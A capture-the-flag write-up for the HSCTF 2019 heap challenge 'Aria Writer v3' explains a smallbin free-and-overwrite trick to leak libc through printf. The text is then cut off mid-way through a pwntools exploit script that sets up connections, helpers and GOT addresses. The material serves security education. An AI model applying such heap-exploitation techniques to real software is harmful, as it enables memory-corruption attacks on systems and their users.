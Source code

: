 ## Problem

Written by NotDeGhost

After all that writing, Rob's gone blind. He still needs to finish this song though :(

`nc pwn.hsctf.com 2468`

[aria-writer-v3](/blog/2019-06-08-hsctf-writeup/Aria Writer v3/aria-writer-v3)

[libc-2.27.zip](/blog/2019-06-08-hsctf-writeup/Aria Writer v3/libc-2.27.zip)

## Solution

This is similar to the last challenge. The difference is we are now limited by the number of malloc calls instead of the number of free calls; furthermore, we no longer have a way to dump the name value completely. The first part is not too be big of an issue because our last script is nowhere close to the limit. The second part, however, does make our task harder. My solution, in the end, is to first free the smallbin chunk that is located at name and then allocate a chunk right before it and replace all the previous bytes with the ascii character `a`. This way the `printf` call will help us leak the value. After we obtain the libc base address, it's the same as last time.

Here's the exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './aria-writer-v3'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  sh = remote('pwn.hsctf.com', 2468)
  REMOTE = True

alloc = lambda size, content: [sh.sendlineafter('> ', '1'), sh.sendlineafter('> ', str(size)), sh.sendlineafter('> ', content)]
free = lambda: sh.sendlineafter('> ', '2')

name_addr = 0x602048
chunk_addr = name_addr + 0x8
printf_got = 0x0000000000601fb8
exit_got = 0x0000000000601fe8
puts_got = 0x0000000000601f98
```